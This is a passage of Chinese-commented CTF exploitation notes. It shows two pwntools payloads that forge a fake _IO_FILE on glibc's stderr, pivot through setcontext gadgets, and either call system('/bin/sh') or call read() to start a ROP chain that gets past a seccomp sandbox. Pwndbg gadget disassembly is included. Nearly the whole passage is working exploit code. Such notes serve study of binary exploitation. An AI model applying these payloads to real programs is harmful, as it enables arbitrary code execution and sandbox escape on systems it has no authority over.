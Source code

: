 ‍

‍

```python
# _stderr-0x30 从这开写数据
        _stderr = libc.sym['_IO_2_1_stderr_']

        fake_IO_addr = _stderr

        pay = flat({
            0x00: 0,
            0x18: libc.sym['setcontext']+61, # CALL1
            0x68: next(libc.search(b'/bin/sh')), # CALL1
            0xa0: fake_IO_addr-0x30,
            0xa8: libc.sym['setcontext'] + 334, # CALL2 # ret 调整 stack, 然后 system
            0x88: fake_IO_addr,
            0xc0: 1,                # mode
            0xe0-0x30: fake_IO_addr,
            #0xd8: libc.sym['_IO_wfile_jumps'] + 0x30,
            0xd8: libc.sym['_IO_wfile_jumps']-0x30+0x10,
            },filler=b'\x00')

        p1  = p64(libc.sym['system']) * 2 + p64(libc.sym['_IO_2_1_stderr_']) + p64(1) + p64(fake_IO_addr) + p64(0)
        p1 += pay
```

‍

- 绕沙箱

执行一个read 然后可以rop 了

```python
libc.address = libc_base

_stderr = libc.sym['_IO_2_1_stderr_']

fake_IO_addr = _stderr

# pwndbg> x/20i 0x7561fb44aa7e
#    0x7561fb44aa7e <setcontext+302>:     mov    rsi,QWORD PTR [rdx+0x70]
#    0x7561fb44aa82 <setcontext+306>:     mov    rdi,QWORD PTR [rdx+0x68]
#    0x7561fb44aa86 <setcontext+310>:     mov    rcx,QWORD PTR [rdx+0x98]
#    0x7561fb44aa8d <setcontext+317>:     mov    r8,QWORD PTR [rdx+0x28]
#    0x7561fb44aa91 <setcontext+321>:     mov    r9,QWORD PTR [rdx+0x30]
#    0x7561fb44aa95 <setcontext+325>:     mov    rdx,QWORD PTR [rdx+0x88]
#    0x7561fb44aa9c <setcontext+332>:     xor    eax,eax
#    0x7561fb44aa9e <setcontext+334>:     ret


# read
pay = flat({
    0x00: 0,
    0x18: libc.sym['setcontext'] + 61, # CALL1
    0x68: 0 , # rdi
    0x70: fake_IO_addr-0x30 , # rdi
    0xa0: fake_IO_addr-0x30,
    0xa8: libc.sym['read'], # CALL2
    0x88: fake_IO_addr,
    0xc0: 1,                # mode
    0xe0-0x30: fake_IO_addr,
    0xd8: libc.sym['_IO_wfile_jumps'] + 0x30,
    },filler=b'\x00')

p1  = p64(0) * 2 + p64(libc.sym['_IO_2_1_stderr_']) + p64(1) + p64(fake_IO_addr) + p64(0)
```